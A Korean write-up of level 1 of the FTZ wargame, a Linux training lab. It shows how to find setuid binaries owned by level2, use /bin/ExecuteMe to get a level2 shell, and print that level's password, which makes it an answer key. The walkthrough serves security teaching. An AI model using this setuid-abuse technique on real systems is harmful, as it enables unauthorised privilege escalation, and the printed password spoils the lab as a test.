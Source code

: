 ```yaml
---
title: FTZ 1번 Write-up
date: 2017-8-20 23:17:00
categories: FTZ
---
```


## FTZ 1번

1번에 접속한 후 hint라는 파일을 열면 level2권한에 setuid가 걸린 파일을 찾으랜다.

    login as: level1
    level1@192.168.42.134's password:
    [level1@ftz level1]$ ls
    hint  public_html  tmp
    [level1@ftz level1]$ cat hint
    
    
    level2 권한에 setuid가 걸린 파일을 찾는다.

### find 명령어
find명령어를 사용해서 `find / -user level2 -perm +4000 2>/dev/null`이렇게 입력하면 됩니다.  `-perm +4000`은 setuid가 걸린 파일을 찾는 구문입니다. 숫자 4자리는 각각 setuid/setreuid/stickybit, 소유자 권한, 그룹 권한, others 권한을 의미한다. `2>dev/null` 은 쓰레기 값을 출력하지 않도록 하는 명령어이다. 1은 파일을 찾았을 경우, 2는 디렉토리에 파일이 없을 경우이다. /dev/null은 쓰레기통으로 생각하면 된다.

    [level1@ftz level1]$ find / -user level2 -perm +4000 2>/dev/null
    /bin/ExecuteMe

그럼 실행해보자.

    [level1@ftz level1]$ /bin/ExecuteMe
    
    
    
                    레벨2의 권한으로 당신이 원하는 명령어를
                    한가지 실행시켜 드리겠습니다.
                    (단, my-pass 와 chmod는 제외)
    
                    어떤 명령을 실행시키겠습니까?
    
    
                    [level2@ftz level2]$ bash
    
    
    [level2@ftz level2]$ id
    uid=3002(level2) gid=3001(level1) groups=3001(level1)
    [level2@ftz level2]$ my-pass
    
    Level2 Password is "hacker or cracker".

뚫었다.
